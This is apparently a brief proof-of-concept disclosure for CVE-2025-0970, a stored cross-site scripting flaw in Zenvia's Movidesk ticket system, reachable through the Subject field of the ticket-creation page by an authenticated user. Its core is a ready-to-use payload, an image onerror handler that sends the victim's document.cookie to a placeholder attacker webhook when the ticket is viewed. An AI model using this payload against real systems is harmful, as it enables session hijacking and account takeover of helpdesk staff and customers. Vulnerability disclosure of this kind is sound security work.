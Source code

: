 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!**


## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

---

## Reference

https://www.movidesk.com/